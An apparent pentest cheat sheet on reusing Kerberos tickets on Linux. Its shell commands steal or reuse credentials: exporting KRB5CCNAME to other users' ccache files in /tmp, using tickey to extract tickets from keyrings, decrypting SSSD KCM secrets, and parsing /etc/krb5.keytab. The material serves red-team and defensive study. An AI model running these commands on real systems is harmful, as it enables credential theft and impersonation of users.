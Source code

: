 # CCACHE Ticket reuse 

### When tickets are set to be stored as a file on disk, the standard format and type is a CCACHE file. This is a simple binary file format to store Kerberos credentials. These files are typically stored in /tmp and scoped with 600 permissions

### List the current ticket used for authentication with env | grep KRB5CCNAME . The format is portable and the ticket can be reused by setting the environment variable with export KRB5CCNAME=/tmp/ticket.ccache . Kerberos ticket name format is krb5cc_%{uid} where uid is the user UID.

## From /tmp

    ls /tmp/ | grep krb5cc

    export KRB5CCNAME=/tmp/krb5cc_1569901115

## From keyring

### Tool to extract Kerberos tickets from Linux kernel keys: https://github.com/TarlogicSecurity/tickey

#### 1) Configuration and build

    git clone https://github.com/TarlogicSecurity/tickey

    cd tickey/tickey

    make CONF=Release

    /tmp/tickey -i

## From SSSD KCM

### SSSD maintains a copy of the database at the path /var/lib/sss/secrets/secrets.ldb . The corresponding key is stored as a hidden file at the path /var/lib/sss/secrets/.secrets.mkey . By default, the key is only readable if you have root permissions.

### Invoking SSSDKCMExtractor with the --database and --key parameters will parse the database and decrypt the secrets.

    git clone https://github.com/mandiant/SSSDKCMExtractor

    python3 SSSDKCMExtractor.py --database secrets.ldb --key secrets.mkey

### The credential cache Kerberos blob can be converted into a usable Kerberos CCache file that can be passed to Mimikatz/Rubeus.

## From keytab

    git clone https://github.com/its-a-feature/KeytabParser

    python KeytabParser.py /etc/krb5.keytab

    klist -k /etc/krb5.keytab
